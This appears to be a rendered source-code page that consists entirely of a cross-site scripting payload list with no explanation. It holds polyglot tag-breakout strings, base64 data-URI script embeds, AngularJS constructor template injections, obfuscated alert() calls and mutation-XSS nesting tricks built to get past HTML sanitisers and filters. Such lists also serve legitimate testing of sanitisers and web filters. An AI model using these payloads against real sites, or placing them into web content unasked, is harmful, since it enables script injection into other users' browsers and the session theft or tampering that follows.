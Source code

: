 ```
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
"'--></noscript></noembed></template></title></textarea></style><script>alert()</script>
'"--></title></textarea></style></noscript></noembed></template></frameset><svg onload=alert()>
"'>-->*/</noscript></ti tle><script>alert()</script>
"'--></style></script><svg oNload=alert()>
{{_openBlock.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[''=''or self.alert(1)]
[Omglol mod 1 mod self.alert (1) andlol]
<svg onload=alert&lpar;1&rpar;></svg>
<img src=x onerror=&#x22;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x22;>
<svg onload=alert&#x28;1&#x29></svg>
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
<svg onload=alert&#40;1&#41></svg>
(alert)(1)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<noscript><style></noscript><img src=x onerror=alert(1)>
<svg><style><img src=x onerror=alert(1)></style></svg>
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
<math><mtext><table><mglyph><style><![CDATA[</style><img title="]]&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
<math><mtext><table><mglyph><style><!--</style><img title=&quot;--></mglyph><img    src=1    onerror=alert(1)>">
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
<svg><p><style><a id="</style><img src=1 onerror=alert(1)>"></p></svg>
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
data:application/vnd.wap.xhtml+xml;base64,PHg6c2NyaXB0IHhtbG5zOng9Imh0dHA6Ly93d3cudzMub3JnLzE5OTkveGh0bWwiPmFsZXJ0KCdYU1MnKTwveDpzY3JpcHQ+
data:application/x-xpinstall;base64,<BASE64 ENCODED FIREFOX .XPI PLUGIN>
<style>:target {color:red;}</style><xss id=x style="transition:color 1s" ontransitionend=alert(1)></xss>
<xss style="display:block;transition:outline 1s;" ontransitionend=alert(1) id=x tabindex=1>test</xss>
```